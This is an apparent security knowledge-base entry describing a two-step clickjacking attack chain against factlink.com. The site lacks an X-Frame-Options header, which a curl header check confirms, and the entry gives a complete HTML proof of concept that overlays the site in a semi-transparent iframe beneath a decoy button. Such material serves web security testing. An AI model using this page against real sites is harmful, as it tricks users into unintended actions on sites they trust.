

---
tags:
  - clickjacking
  - web
  - iframe
  - x-frame-options
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Missing-X-Frame-Options-Header]]'
  - '[[procedures/Demonstrate-Clickjacking-Feasibility]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:28:04.935Z'
description: >-
  A web vulnerability exploitation chain demonstrating clickjacking on
  Factlink.com by embedding the site in an iframe due to absent X-Frame-Options
  header, enabling potential unauthorized user interactions.
skill_level: beginner
impact_level: medium
id: 66196936-b344-4e63-838d-133f10c1f95a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Clickjacking Attack on Factlink via Missing X-Frame-Options Header

Multi-stage attack chain demonstrating a complete attack workflow exploiting the absence of X-Frame-Options header on Factlink.com to enable clickjacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools
- [[commands/curl-check-headers]]

### Target Environment

- Web application at https://factlink.com/
- No specific ports or services beyond standard HTTP/HTTPS
- Public network access to the target site

### Initial Access Requirements

- No credentials required
- Direct internet access to the target URL
- No prior access needed

## Detailed Attack Procedures

### Step 1: Identify Missing X-Frame-Options Header
procedure: [[procedures/Identify-Missing-X-Frame-Options-Header]]

**Objective**: Verify the absence of frame-busting headers on the target site to confirm clickjacking susceptibility.

**Instructions**: Use [[commands/curl-check-headers]] to inspect the HTTP response headers of the target site:

```bash
curl -I https://factlink.com/
```

Review the output for the presence of X-Frame-Options. If absent, the site can be embedded in an iframe.

**Expected Output**: HTTP headers without X-Frame-Options, such as:

```
HTTP/2 200
content-type: text/html; charset=utf-8
...
(no X-Frame-Options)
```

**Success Indicators**:
- No X-Frame-Options header found
- Site loads normally without framing restrictions

### Step 2: Demonstrate Clickjacking Feasibility
procedure: [[procedures/Demonstrate-Clickjacking-Feasibility]]

**Objective**: Embed the target site in an iframe on a controlled page to overlay malicious elements and simulate tricked user interactions.

**Instructions**: Create a simple HTML page with an invisible iframe overlaying the target site. For example, save the following as demo.html and open in a browser:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking Demo</title></head>
<body>
  <div style="position: relative;">
    <iframe src="https://factlink.com/" style="opacity: 0.5; z-index: 1; position: absolute; top: 0; left: 0; width: 100%; height: 100%;"></iframe>
    <button style="z-index: 2; position: absolute; top: 100px; left: 100px;">Click Me (Tricks Target)</button>
  </div>
</body>
</html>
```

Interact with the overlay to simulate clicks on hidden elements of the target site.

**Expected Output**: Target site loads in iframe without errors, allowing overlay interactions that trigger actions on the embedded page.

**Success Indicators**:
- Iframe embeds successfully without browser blocking
- Clicks on overlay elements perform actions on the target site

## Attack Chain Summary

### Key Achievements

1. Confirmed missing X-Frame-Options header vulnerability
2. Demonstrated iframe embedding for UI redressing
3. Highlighted potential for CSRF bypass and unauthorized actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
